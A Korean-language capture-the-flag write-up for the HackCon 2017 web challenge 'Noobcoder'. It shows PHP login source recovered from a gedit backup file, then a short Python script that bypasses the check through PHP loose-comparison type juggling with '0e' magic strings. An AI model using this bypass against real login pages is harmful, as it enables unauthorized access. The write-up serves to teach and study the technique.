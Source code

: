==============================================================
[2017_HackCon] [WEB] Noobcoder
==============================================================


문제내용
==============================================================


A junior recently started doing PHP, and makes some random shit. He uses gedit as his go-to editor with a black theme thinking it was sublime.
So he made this login portal, I am sure he must have left something out. Why don't you give it a try?
Server: http://defcon.org.in:6062

Note: dirbuster is NOT required for this question



문제 풀이
==============================================================

gedit 에디터를 사용한다고 한다. 로그인을 확인하는 checker.php를 checker.php~로 다운로드를 한다.
해당 파일에 소스를 확인해보자.

.. code-block:: php

    <html>
    <head>
    </head>
    <body>
    <?php
    if ($_POST["username"] == $_POST["password"] && $_POST["password"] !== $_POST["username"])
        echo "congratulations the flag is d4rk{TODO}c0de";
    else
        echo "nice try, but try again";
    ?>
    </body>
    </html>


소스상에서 username 데이터와 password 데이터가 같지만 같지 않을 경우 플래그를 출력한다.
php는 "=="을 사용할 경우 비교 연산자 취약점이 존재할 수 있다. 다음 코드를 실행할 경우 플래그를 획득할 수 있다.

.. code-block:: python

    import requests

    url = "http://defcon.org.in:6062/checker.php"
    data = {
        "username":"0e1208123",
        "password":"0e0956871"

    }
    r = requests.post(url, data=data)
    print r.content


